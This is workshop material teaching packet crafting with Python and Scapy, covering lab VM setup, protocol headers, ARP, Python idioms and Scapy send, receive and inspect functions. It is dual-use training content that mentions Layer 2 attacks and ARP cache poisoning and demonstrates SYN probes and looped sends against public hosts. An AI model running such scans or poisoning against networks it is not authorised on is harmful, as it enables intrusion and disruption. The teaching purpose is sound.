Introduction
Workshop overview
- This is an intense workshop on crafting packets using Python and Scapy
- We’ll understand low level networking details/abstractions like raw sockets and move towards using high level tools like Scapy to craft packets
- We’ll understand Scapy framework and craft packets using it
- We’ll leverage Scapy as a framework to build custom network tools/utilities
Concepts covered
- Practical network reconnaissance techniques like host discovery, service discovery, Remote OS finger printing, promiscuous node detection using Scapy
- Launching Layer 2 attacks
- Leverage Scapy to build custom tools/utilities such as sniffers, pcap analyzer, wireless sniffers and scanners
Skill prerequisites
- Basics of Python programming. (strings, lists, functions, list comprehensions etc)
- Knowledge of basic networking concepts. (Enough to know what an IP address, port number, OSI model etc.)
- Comfortable with basic operations on your host Operating System. (copying files, using text editor)
Technical prerequisites
- Laptop with administrator access (mandatory)
- Minimum 4 GB RAM and 5 GB free hard disk space (More the better)
- Preferably running Linux as primary OS but Windows/Mac is permissible
- Preferably, your own Internet connectivity
License

Copyright 2020 Bharath Kumar.
Except as otherwise noted, the content of this workshop is licensed under the Creative Commons Attribution-Share Alike 4.0 International License and the code samples are licensed under the Apache 2.0 License.
“Network Hunt” CTF is based on work created and shared by James Sullivan and used according to terms described in the MIT license.
All the packet header illustrations are reproduced work created and shared by Matt Baxter as seen at Nmap reference book
Bigger Picture
This workshop is part of a series of workshops as shown below.

The training material could be found at https://disruptivelabs.in/training
Trainers
Bharath Kumar
Personal website: https://disruptivelabs.in/
Twitter: https://twitter.com/0xbharath
Github: https://github.com/0xbharath
Abhinav Chourasia
Twitter: https://twitter.com/geek_ji
Disclaimer
Legal ramifications!
The legal ramifications of scanning networks are complex and controversial (like with many other laws pertaining to computer security). When using tools like Scapy/Nmap the line between doing something benign and malignant is thin. Always have written permission before scanning a network that you don’t own, know what you are doing, know your jurisdictions and speak to a lawyer.
The general rule for this class is:
"You don’t own it; You don’t scan it!"
More about this topic - https://nmap.org/book/legal-issues.html
Reader feedback
Feedback from readers is expected and appreciated. We are actively looking forward to improving the training content. Let us know what you think about this training — what you liked or may have disliked. Reader feedback is important for us to develop more content.
If you find mistakes, omissions, errors or blatant lies in the training content, please let me know and I will make changes. I will give proper credits to everyone who helps out! I hope to make this training content better over time.
You can provide the feedback by raising a issue in the github repo or directly to the author via social media.
Lab setup
"Give me six hours to chop down a tree and I will spend the first four sharpening the axe." - Lincoln
Mysterious Boxes
Follow the guidlines listed below as-is if you are using *nix OS. If you are using Windows then replace all the .sh files in the following steps with .bat files and follow the steps.
Setup
Step 1
- Install VirtualBox (preferably 5.0 or later)
Step 2
- Download the lab setup files and virtual machines available as zip file at following link
https://archive.org/download/scapy-pc-workshop-32bit/scapy-pc-workshop-32bit.zip
- Extract the zip file in a directory
unzip scapy-pc-workshop-32bit.zip
Step 3
-
Change the directory to the directory where you have extracted the files
-
Run the script
import_labs.sh- This script will import all the OVA files from the directory into your VirtualBox
- In the end, this script will list all the VMs available in VirtualBox
- If you see victim1, victim2, attacker in the VMs list, the importing is successful
-
Run the script
start_labs.sh- This script will setup and run your lab VMs
- All the victims will run in the background and only attacker will run in the foreground
- This script will display list of all the running VMs in the end
- If you see two victims and an attacker in the list, you are ready!
Run the script stop_labs.sh when done with the labs. This will gracefully shutdown all the lab VMs.
Troubleshooting (Windows)
All the scripts assume the VirtualBox installation is at C:\Program Files\Oracle\VirtualBox. In case, if the installation is at a different location, edit the following line in script to manually point to the right location.
PATH=%PATH%;C:\Program Files\Oracle\VirtualBox
All the VMs have host-only interface turned on by default. Windows VirtualBox interface naming convention tend to be inconsistent. In case you are having trouble starting VMs due to network interface name, change the interface name in script manually to match your VirtualBox host-only adapter interface name.
vboxmanage modifyvm "victim1" --nic1 hostonly --hostonlyadapter1 <YOUR_INTERFACE_NAME_HERE">
Topology
Host machine
- Host OS is the primary Operating System on which you are running VirtualBox
- Host OS is on the same sub-net as the VM’s
Attacker machine
Username: attacker
Password: attacker
- The VM displayed after running
start_labs.shis our attacker - This is our base machine for this workshop from where we orchestrate our attacks
- The attacker machine has SSH server running so you can use SSH to login to the machine
- For GUI, you can login using the above credentials in the VM and run
startxcommand - The GUI is openbox based, it is intended to be super minimal so don’t be surprised about lack of "features"
readme.txtfile in home directory has more info on tools installed and essential commands etc
Victim machines
- Bunch of pre-configured VM's
- Configured to run in the background (headless mode)
- Victims have varying operating systems, listening services and security policies
The Goal
To find as much information as we can about the victim machines using Scapy on attacker machine.
- Fingerprinting OSs
- Find listening services
- Understand security policies
Network Hunt
Setup
Directory tree for the lab on your attacker machine
/
│
└───home
│
└───network_hunt_challenge
│
└── network_hunt.py
- Run the
network_hunt.pyscript as root
sudo python network_hunt.py
- If the script executed without errors, the challenge is setup!
- The lab will start and
tap0interface will be created. - Terminating the script will deallocate this interface and release all state.
Refer to "exercises" section –> "network hunt" page in this notes for instruction on cracking the challenge.
Networking Basics
Network Layers

Socket Interface

Raw sockets
Kernel offers two ways to forge packets:
Layer 3 - PF_INET, SOCK_RAW
- Classic raw sockets
- Lot of heavy lifting is done by the kernel which means there is a limitation on what you can do
Layer 2 - PF_PACKET, PF_RAW
- No hand holding by kernel
- There is no limit on what you craft and send
- You are responsible for choosing interfaces, linktypes, ARP stuff, calculate checksum etc
Packet Headers
This workshop is about crafting packets so it makes sense to spend some time in understanding what packets are and how they are structured.
Illustrations on this page are reproduced work created and shared by Matt Baxter as seen at https://nmap.org/book/tcpip-ref.html
IP header

TCP header

| TCP flag | Binary | Decimal | TCP Dump syntax |
|---|---|---|---|
| URG | 00100000 | 32 | 'tcp[13] == 32' |
| ACK | 00010000 | 16 | 'tcp[13] == 16' |
| PSH | 00001000 | 8 | 'tcp[13] == 8' |
| RST | 00000100 | 4 | 'tcp[13] == 4' |
| SYN | 00000010 | 2 | 'tcp[13] == 2' |
| FIN | 00000001 | 1 | 'tcp[13] == 1' |
SYN-ACK = 00010010 = 18 RST-ACK = 00010100 = 20
TCP flags mnemonic - Unskilled Attackers Pester Real Security Folks
UDP header

ICMP header

ARP header

Address Resolution Protocol(ARP) protcol
Understanding ARP protocol is important to solve some challenges that's why we have an entire section for this protocol. We'll use this section as reference when we are solving relavant challenges.
- ARP is used for mapping a network address (e.g. an IPv4 address) to a physical address like an Ethernet address (also named a MAC address).
- ARP has been implemented with many combinations of network and data link layer technologies but the most common being IPv4 over Ethernet.
- The purpose of ARP is to find out the MAC address of a device in your Local Area Network (LAN), for the corresponding IPv4 address, which network application is trying to communicate.
ARP resolution


Step 1:
When a source device want to communicate with another device, source device checks its ARP cache to find it already has a resolved MAC Address of the destination device. If it is there, it will use that MAC Address for communication. To view your Local ARP cache. (arp -a displays local arp cache)
Step 2:
If ARP resolution is not there in local cache, the source machine will generate an ARP request message(who-has), it puts its own data link layer address as the Sender Hardware Address and its own IPv4 Address as the Sender Protocol Address. It fills the destination IPv4 Address as the Target Protocol Address. The Target Hardware Address will be left blank, since the machine is trying to find that.
Step 3:
The source broadcast the Address Resolution Protocol (ARP) request message to the local network.
Step 4:
The message is received by each device on the LAN since it is a broadcast. Each device compare the Target Protocol Address (IPv4 Address of the machine to which the source is trying to communicate) with its own Protocol Address (IPv4 Address). Those who do not match will drop the packet without any action.
Step 5:
When the targeted device checks the Target Protocol Address, it will find a match and will generate an Address Resolution Protocol (ARP) reply message. It takes the Sender Hardware Address and the Sender Protocol Address fields from the Address Resolution Protocol (ARP) request message and uses these values for the Targeted Hardware Address and Targeted Protocol Address of the reply message.
Step 6:
The destination device will update its Address Resolution Protocol (ARP) cache, since it need to contact the sender machine soon.
Step 7:
Destination device send the Address Resolution Protocol (ARP) reply message and it will NOT be a broadcast, but a unicast.
Step 8:
The source machine will process the Address Resolution Protocol (ARP) reply from destination, it store the Sender Hardware Address as the layer 2 address of the destination.
Step 9:
The source machine will update its Address Resolution Protocol (ARP) cache with the Sender Hardware Address and Sender Protocol Address it received from the Address Resolution Protocol (ARP) reply message.
Python concepts
Python Concepts
This training assumes that you already know basics of Python. This section by no means is an introduction to Python.
In this section we are covering Python concepts that are essential when using Scapy. If you need a quick intro to Python then you can use the content at https://cs.stanford.edu/people/nick/python-in-one-easy-lesson/
List comprehensions
- A list comprehension is a compact way to write an expression that expands to a whole list
- List comprehension can almost substitute for the lambda function especially as
map(),filter()andreduce()

# compute a list of their squares of elements in a list
nums = [1, 2, 3, 4]
squares = [ n * n for n in nums ] ## [1, 4, 9, 16]
>>> port_numbers = [22,25,80,139,443]
>>> [k for k in port_numbers]
[22, 25, 80, 139, 443]
>>>
>>> numbers = [2,4,6,8]
>>> [k*2 for k in numbers]
[4, 8, 12, 16]
You can add an if test to the right of the for-loop to narrow the result. The if test is evaluated for each element, including only the elements where the test is true.
>>> port_numbers = [22,25,80,139,443,8080,9999,55555]
>>>
>>> [k for k in port_numbers if k<1023]
[22, 25, 80, 139, 443]
Lambda functions
Syntax: lambda arg1, arg2, …argN : expression using arguments.

- Python supports the creation of anonymous functions (i.e. functions that are not bound to a name) at runtime, using a construct called “lambda”.
- Lambda functions take any number of arguments but only has one expression, the result of this expression is returned.
def f (x): return x**2 ... print f(8) 64
g = lambda x: x**2
print g(8) 64
-
Lambda functions can be used anywhere a function is expected, not necessary to assign it to a variable
-
You can pass lambda functions to other functions to do stuff(for example lambda function as key to
sorted()) -
Extracting numbers that are multiples of 3
-
One element of data structure(a list here) gets passed to the lambda function at a time
-
Lambda function can only have one expression
-
filteris a built-in function in Python that take a function and a data structure as arguments, passes one element of data structure at a time to the function
>>> mult3 = filter(lambda x: x % 3 == 0, [1, 2, 3, 4, 5, 6, 7, 8, 9])
>>> mult3
[3, 6, 9]
Sort elements in list by last character.
>>> lis = ['az', 'bbbbbbt', 'cccx']
>>>
>>> sorted_by_last = sorted(lis, key = lambda(x): x[-1] )
>>>
>>> sorted_by_last
['bbbbbbt', 'cccx', 'az']
Extracting privileged ports(under 1024) from a list of port numbers using lambda function.
>>> open_ports = [1,20,21,25,80,443,1639,4444,6798]
>>>
>>> privileged_ports = filter(lambda x: x <1024, open_ports)
>>> privileged_ports
[1, 20, 21, 25, 80, 443]
>>>
If you are not comfortable with using lambda functions, you can simply use normal functions.
>>> def extract_priv_ports(port_number):
... if port_number < 1024:
... return port_number
>>>
>>> privileged_ports = filter(extract_priv_ports, open_ports)
>>> privileged_ports
[1, 20, 21, 25, 80, 443]
>>>
Lambda funtions are good when they are short and as throw away functions. If you plan on doing anything remotely complex with it, put lambda away and define a real function.
Scapy
- Scapy Intro
- Scapy Modes
- Exploring Scapy
- Creating Packets
- Inspecting Packets
- Send & Recieve Packets
- Import & Export Data
- Sniffing
Scapy Intro
Trivia
- Scapy is packet crafting, manipulating and analysis suite
- Python interpreter disguised as a Domain Specific Language
- Created by Philippe Biondi
Overview
- Helps to forge packets, send & recieve packets, R&W pcaps, alter packets.
- Easy & faster packet desgining.
- Dozens of in-built functions to automate various network utilities/attacks..
What’s different about Scapy?
You might be wondering that there are dozens of packet crafting tools, network scanners so why should we use Scapy?
Scapy is not just another packet crafting tool, it comes with a lot of new concepts and paradigms.
Scapy is not desgined as a simple but rather a framework upon which you can build other custom tools.
Absolute freedom over packets
A lot of packet crafting tools does not have a way to set certain fields in packets (limitations of sock_raw) i.e. the kernel is still in control of certain fields and will calculate those fields on behalf of the tool (checksums, IHL)
Most packet crating tools let’s you fiddle with only limited fields/protocols, it is impossible to stack unrelated protocol headers into a single packet.
Try to find a tool that can do
- An ICMP echo request with some given padding data
- An IP protocol scan with the More Fragments flag
- Some ARP cache poisoning with a VLAN hopping attack
- A traceroute with an applicative payload (DNS, ISAKMP, etc.)
Scapy tries to overcome those problems. It enables you to build exactly the packets you want. Even if you think stacking a 802.1q layer on top of TCP makes no sense, it may have some for somebody else working on some product.
Scapy has a flexible model that tries to avoid any arbitrary limits. You’re free to put any value you want in any field you want, and stack them like you want. You’re an adult after all.
Decode, Not Interpret
Tool that interprets - “The port 80 is filtered”
Tool that decodes - “I have recieved ICMP type 3; code 13 from port 80”
- Having a tool that interprets is convenient but it is not the the best approach all the time.
- Tools interpret results based on the tool authors logic but every network is unique, one interpretation does not fit all the senarios.
- Interpreting results can help users that don’t know what a port scan is but it can also make more harm than good, as it injects bias into the results. A more knowledgable penetration tester woud want to see all the information and make interpretation himself. Unfortunately many tools discard most information that is needed.
- Networks are complex especially with the advent of firewalls, cloud infrastructure etc so each pen test is unique and you have to pay attention to even the minute details rather than relying on some tools interpretation blindly.
Fast packet desgining & power of Python
Other tools stick to the program-that-you-run-from-a-shell paradigm. The result is an awful syntax to describe a packet. For these tools, the solution adopted uses a higher but less powerful description, in the form of scenarios imagined by the tool’s author. As an example, only the IP address must be given to a port scanner to trigger the port scanning scenario. Even if the scenario is tweaked a bit, you still are stuck to a port scan.
Scapy is not a simple shell command program; Scapy runs inside Python interpreter, provides you the whole language when dealing with packets but you don’t need to master Python to use Scapy though.
Scapy’s paradigm is to propose a Domain Specific Language (DSL) that enables a powerful and fast description of any kind of packet. Using the Python syntax and a Python interpreter as the DSL syntax and interpreter has many advantages: there is no need to write a separate interpreter, users don’t need to learn yet another language and they benefit from a complete, concise and very powerful language.
Probe Once, Interpret Many Times.
Network recon/Network mapping is not simply scanning ports, it’s far more complex and involves techniques like TTL analysis, understanding IP based trust relationships in the network etc.
Unlike many tools, which discard all the information which they deem irrelavent, Scapy gives all the information, i.e. all the stimuli sent and all the responses received. Scapy gives the complete raw data, which can be used many times during analysis. You’ll have all the Power of Python to dig through the data and perform analysis.
Scapy Limitations
- Scapy is not designed for fast throughput. It’s written in Python which comes with many layers of abstraction.
- Scapy does not go easy on memory (Each packet is a class instance). Not a right choice for analysing large packet captures.
Scapy Modes
Scapy - Interactive mode
- Just run scapy command in your terminal. You will be presented with an interactive interpreter.
- It’s just a Python interpreter disguised as a Domain Specific Language i.e. python interpreter loaded with scapy classes and objects
- Scapy in interactive mode suits well for one-liners
$ scapy
Welcome to Scapy (2.3.1)
>>>
>>>
>>> sniff()
^C<Sniffed: TCP:281 UDP:0 ICMP:0 Other:2>
>>>
Importing Scapy as a module
Scapy can be imported as an externam module into any python scipt.
>>> from scapy.all import *
>>> dir()
['AES', 'AH', 'ARC2', 'ARC4', 'ARP', 'ARPHDR_ETHER', 'ARPHDR_LOOPBACK', 'ARPHDR_METRICOM' [...snipped...]
>>> IP
<class 'scapy.layers.inet.IP'>
>>> TCP
<class 'scapy.layers.inet.TCP'>
Exploring Scapy
List of protocols supported
>>> ls()
ARP : ARP
DNS : DNS
Dot11 : 802.11
TCP : TCP
Ether : Ethernet
[...]
Dissecting protocols
>>> ls(IP)
version : BitField = (4)
ihl : BitField = (None)
tos : XByteField = (0)
len : ShortField = (None)
id : ShortField = (1)
flags : FlagsField = (0)
frag : BitField = (0)
ttl : ByteField = (64)
proto : ByteEnumField = (0)
chksum : XShortField = (None)
src : Emph = (None)
dst : Emph = ('127.0.0.1')
options : PacketListField = ([])
List of all the scapy commands
>>> lsc()
rdpcap : Read a pcap file and return a packet
send : Send packets at layer 3
sendp : Send packets at layer 2
sendpfast : Send packets at layer 2 using tcpreplay
[...]
Getting help on any function
>>> help(arpcachepoison)
Help on function arpcachepoison in module scapy.layers.l2:
arpcachepoison(target, victim, interval=60)
Poison target's cache with (your MAC,victim's IP) couple
arpcachepoison(target, victim, [interval=60]) -> None
[...]
Change Scapy configuration
>>> conf
iface = 'eth3'
iface6 = 'wlan0'
wepkey = ''
sniff_promisc = 1
[...]
Assembling and sending raw packets requires UID 0 (root access). Use
sudoto become root.
Creating Packets
Creating a packet
- Scapy packet creation is consistent with layered approach in networking
- The basic building block of a packet is a layer, and a whole packet is built by stack- ing layers on top of one another
- In scapy, packets are constructed by defining packet headers for each protocol at different layers of TCP/IP and then stacking these layers in order
- To create a DNS query, you need to build Ether(sometimes optional), IP,UDP headers and stack them using / operator
Creating packet in one line
>>> packet = Ether()/IP(dst='8.8.8.8')/TCP(dport=53,flags='S')
A full-fledged DNS request packet
>>> dns_query = IP(dst="8.8.8.8")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="null.co.in"))
>>>
>>> dns_query
<IP frag=0 proto=udp dst=8.8.8.8 |<UDP sport=domain dport=domain |<DNS rd=1 qd=<DNSQR qname='null.co.in' |> |>>>
Create each layer individually and stack them using ‘/’ operator
>>> l2 = Ether()
>>> l3 = IP(dst='8.8.8.8/30')
>>> l4 = TCP(dport=53, flags = 'S')
>>> packet = l2/l3/l4
Scapy IP notations
Scapy accepts plain dotted-quad IP notation, CIDR notation, hostnames.
>>> packet = IP(dst = '8.8.8.8')
>>>
>>> packet = IP(dst = 'scanme.nmap.org')
>>>
>>> packet = IP(dst = '8.8.8.8/30')
# Above line created 4 packets in one statements implicitly.
# Using list comprehensions to view all the packets.
>>> [a for a in packet]
[<IP dst=8.8.8.8 |>, <IP dst=8.8.8.9 |>, <IP dst=8.8.8.10 |>, <IP dst=8.8.8.11 |>]
>>> packet = IP(dst = 'egadz.metasploit.com/30')
Creating set of packets
We can create a set of packets implicitly using Scapy.
pkts = IP(ttl=[1,3,5,(7,10)])/TCP()
For inspecting set of packets you can use list comprehensions
[pkt for pkt in pkts]
>>> [pkt for pkt in pkts]
[<IP frag=0 ttl=1 proto=tcp |<TCP |>>, <IP frag=0 ttl=3 proto=tcp |<TCP |>>, <IP frag=0 ttl=5 proto=tcp |<TCP |>>, <IP frag=0 ttl=7 proto=tcp |<TCP |>>, <IP frag=0 ttl=8 proto=tcp |<TCP |>>, <IP frag=0 ttl=9 proto=tcp |<TCP |>>, <IP frag=0 ttl=10 proto=tcp |<TCP |>>]
>>>
>>> from pprint import pprint
>>> pprint([pkt for pkt in pkts])
[<IP frag=0 ttl=1 proto=tcp |<TCP |>>,
<IP frag=0 ttl=3 proto=tcp |<TCP |>>,
<IP frag=0 ttl=5 proto=tcp |<TCP |>>,
<IP frag=0 ttl=7 proto=tcp |<TCP |>>,
<IP frag=0 ttl=8 proto=tcp |<TCP |>>,
<IP frag=0 ttl=9 proto=tcp |<TCP |>>,
<IP frag=0 ttl=10 proto=tcp |<TCP |>>]
>>> IP(dst="192.168.*.1-10")/TCP(dport=(0,1024))
Inspecting Packets
Get detailed description of the packet along with datatypes
>>> packet = IP()/TCP()
>>> ls(packet)
version : BitField = 4 (4)
ihl : BitField = None (None)
tos : XByteField = 0 (0)
len : ShortField = None (None)
id : ShortField = 1 (1)
flags : FlagsField = 0 (0)
frag : BitField = 0 (0)
ttl : ByteField = 64 (64)
proto : ByteEnumField = 6 (0)
chksum : XShortField = None (None)
src : Emph = '127.0.0.1' (None)
dst : Emph = '127.0.0.1' ('127.0.0.1')
options : PacketListField = [] ([])
[-- snipped --]
show()
Displays detailed headers but does not assemble the packet
>>> packet.show()
###[ IP ]###
version= 4
ihl= None
len= None
[...]
proto= hopopt
chksum= None
src= 192.168.1.100
dst= Net('8.8.8.8/30')
show2
Similar to show() but also assembles the packet and calculates the checksums and IHL.
>>> packet.show2()
###[ IP ]###
version= 4L
ihl= 5L
[...]
ttl= 64
proto= hopopt
chksum= 0xa8cd
src= 192.168.1.100
dst= 8.8.8.8
Get only user supplied values
>>> b.hide_defaults( )
summary
Display short & interesting summary of a packet.
>>> packet.summary()
'Ether / IP / TCP 192.168.1.100:ftp_data > 8.8.8.8:domain S'
nsummary
Display short & interesting summary of a packet with numbering.
>>> pkts[0].nsummary()
0000 IP / TCP 192.168.1.103:ftp_data > 198.58.109.32:tcpmux S ==> IP / TCP 198.58.109.32:tcpmux > 192.168.1.103:ftp_data SA
0001 IP / TCP 192.168.1.103:ftp_data > 198.58.109.32:3128 S ==> IP / TCP 198.58.109.32:3128 > 192.168.1.103:ftp_data SA
0002 IP / TCP 192.168.1.103:ftp_data > 198.58.109.32:http_alt S ==> IP / TCP 198.58.109.32:http_alt > 192.168.1.103:ftp_data SA
summary() and nsummary() supports advanced features such as:
- Filtering packets by individual header field values using
lfilterargument - Printing only necessary parts of packet using
prnargument
>>> egadz[0].nsummary(lfilter= lambda (s,r): r[TCP].sport == 3128 or r[TCP].sport==1)
0000 IP / TCP 192.168.1.103:ftp_data > 198.58.109.32:tcpmux S ==> IP / TCP 198.58.109.32:tcpmux > 192.168.1.103:ftp_data SA
0001 IP / TCP 192.168.1.103:ftp_data > 198.58.109.32:3128 S ==> IP / TCP 198.58.109.32:3128 > 192.168.1.103:ftp_data SA
>>> egadz[0].nsummary(lfilter= lambda (s,r): r[TCP].sport == 3128, prn = lambda (s,r): s.dst)
0001 198.58.109.32
Interacting with fields inside packet
To access a specific field: [packet_name].[field]
>>> packet.dst
'd8:55:a3:fe:80:78'
For fields that are not unique [packet_name][proto].[field]
>>> packet[Ether].dst
'd8:55:a3:fe:80:78'
>>> packet[IP].dst
'8.8.8.8'
.payload ignores the lowest layer and parses the next layer.
>>> packet.payload.flags
0
>>> packet.payload.payload.flags
2
Checking for presence of layer in packet
haslayer method
checks for presence of a layer in a packet
>>> if packet.haslayer(TCP):
... print packet[TCP].flags
...
2
>>>
Using an in construct
>>> pkt = IP()/TCP()/DNS()
>>>
>>> DNS in pkt
True
Scapy’s sprintf
sprintf()method is one of the very powerful features ofscapy.sprintfcomes very handy while writing custom toolssprintffills a format string with values from the packet, much like itsprintffrom C Library, except here it fills the format string with field values from packets.
sprintf format - % [ [ fmt ] [ r ] , ] [ layer [ :nb ] . ] field %
Example - %-5sr, TCP.flags%
>>> packet.sprintf("Ethernet source is %Ether.src% and IP proto is %IP.proto%")
'Ethernet source is 00:00:00:00:00:00 and IP proto is icmp'
>>> a=Ether( )/Dot1Q(vlan=42)/IP(dst="192.168.0.1")/TCP(flags="RA")
>>>
>>> a.sprintf("%dst% %IP.dst% vlan=%Dot1Q.vlan%")
'00:00:d4:ae:3f:71 192.168.0.1 vlan=42'
>>>
>>>a.sprintf(" %TCP.flags% | %5s,TCP.flags% | %#05xr,TCP.flags%")
' RA | RA | 0x014'
>>> res.nsummary(lfilter = lambda (s,r): r[TCP].flags & 2)
0008 IP / TCP 192.168.5.20:ftp-data > 192.168.5.22:discard S ==>
IP / TCP 192.168.5.22:discard > 192.168.5.20:ftp-data SA / Padding
>>> res.nsummary(lfilter = lambda (s,r): r[TCP].flags & 2, prn = lambda (s,r):s.dport)
0008 9
0012 13
0021 22
0024 25
Packet handlers
In the below example, we used lambda function to write a packet handler that can handle TCP packets but this function does not work with anything other than TCP packets.
>>> f=lambda x:x.sprintf("%IP.dst%:%TCP.dport%")
>>> f(IP(dst='8.8.8.8')/TCP())
'8.8.8.8:www'
>>> f(IP('8.8.8.8')/UDP())
'8.8.8.8:??'
Having a function that can work with various packets can be helpful in practical senarios, we can achieve this using conditional substrings in sprintf(). A conditional substring is only triggered when a layer is present in the packet or else it is ignored. You can also use ! for checking the absence of a layer.
Conditional substring format - { [ ! ] layer : substring }
>>> f=lambda x: x.sprintf("=> {IP:ip=%IP.dst% {UDP:dport=%UDP.dport%}\
... {TCP:%TCP.dport%/%TCP.flags%}{ICMP:type=%r,ICMP.type%}}\
... {!IP:not an IP packet}")
>>>
>>> f(IP()/TCP())
'=> ip=127.0.0.1 http/S'
>>>
>>> f(IP()/UDP())
'=> ip=127.0.0.1 dport=domain'
>>>
>>> f(IP()/ICMP())
'=> ip=127.0.0.1 type=8'
>>>
>>> f(Ether()/ARP())
'=> not an IP packet'
Python’s format method
- Python string format method generates beautiful output but unlike sprintf it prints literal values.
>>> "Ether source is: {} & IP proto is: {}".format(packet.src, packet.proto)
'Ether source is: 00:00:00:00:00:00 & IP proto is: 1'
Send & Recieve Packets
- Send & recieve funtions are the heart of scapy’s functionality
Most scapy funtions like
send(),sniff()functions has fine grain options like applying bpf filters, timeout, retry, verbosity etc. Usehelp(function_name)to find out more options.
send()
- Send packets at Layer 3(Scapy creates Layer 2 header), Does not recieve any packets.
loopargument is by default 0, if it’s value is anything other than 0 then the packets will be sent in a loop till CTRL-C is pressedcountcan be used to set exact number of packets to be sent.intercan be used to set numbers of seconds between each packet.
>>> send(IP(dst='8.8.8.8')/TCP(dport=53, flags='S'))
.
Sent 1 packets.
>>>
>>> send(IP(dst=['8.8.8.8', '8.8.8.4'])/TCP(dport=53, flags='S'))
..
Sent 2 packets.
>>>
>>> send(IP(dst='8.8.8.8')/TCP(dport=53, flags='S'), count=10)
..........
Sent 10 packets.
>>>
>>> send(IP(dst='8.8.8.8')/TCP(dport=53, flags='S'), loop=1)
......................... [... snipped ...]
Sent 1503 packets.
sendp()
- Same as
send()but sends packets at Layer 2 (Must provide Layer 2 header), does not recieve any packets - Use
ifaceto set interface to send packets on. (If not setconf.ifacevalue will be used)
>>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
....
Sent 4 packets.
>>> sendp("I’m travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
>>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
...........
Sent 11 packets.
sr()
- Sends packets and receiving answers.
sr()returns a two lists, first list contains stimulus-response couple(like a tuple), and the second list contains the unanswered probes
>>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
Received 6 packets, got 3 answers, remaining 0 packets
(<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0
>>> ans,unans=_
>>> ans.summary()


sr1()
Sends all the stimulus and records only the first response.
>>> p=sr1(IP(dst="scanme.nmap.org")/ICMP()/"XXXXXXXXXXX")
Begin emission:
...Finished to send 1 packets.
.*
Received 5 packets, got 1 answers, remaining 0 packets
srloop()
- Sends stimulus, recieves responses and displays responses, in a loop.
- The function returns a couple of packet and answers, and the unanswered.
>>> packet = IP(dst='192.168.56.102')/ICMP()
>>> srloop(packet)
RECV 1: IP / ICMP 192.168.56.102 > 192.168.56.1 echo-reply 0
RECV 1: IP / ICMP 192.168.56.102 > 192.168.56.1 echo-reply 0
RECV 1: IP / ICMP 192.168.56.102 > 192.168.56.1 echo-reply 0
^C
Sent 3 packets, received 3 packets. 100.0% hits.
(<Results: TCP:0 UDP:0 ICMP:3 Other:0>, <PacketList: TCP:0 UDP:0 ICMP:0 Other:0>)
The loopback interface is a very special. Packets going through it are not really assembled and dissassembled
The kernel routes the packet to its destination while it is still stored an internal structure. The kernel is not aware of what Scapy is doing behind his back, so what you see on the lo interface is also a fake. Except this one did not come from a local structure. Thus the kernel will never receive it.
To speak to local applications, you need to build your packets one layer upper, using a PF_INET/SOCK_RAW socket > instead of a PF_PACKET/SOCK_RAW (or its equivalent on other systems that Linux).
Import & Export Data
PCAP format
Import packets from PCAP file.
>>> pkts = rdpcap("temp.cap")
>>> pkts = sniff(offline="temp.cap")
- Export packets to pcap file.
>>> wrpcap("temp.cap",pkts)
hexdump format
- Scapy allows you to export recorded packets in various hex formats
- Use
hexdump()function to display one or more packets using classic hexdump format
>>> hexdump(pkt)
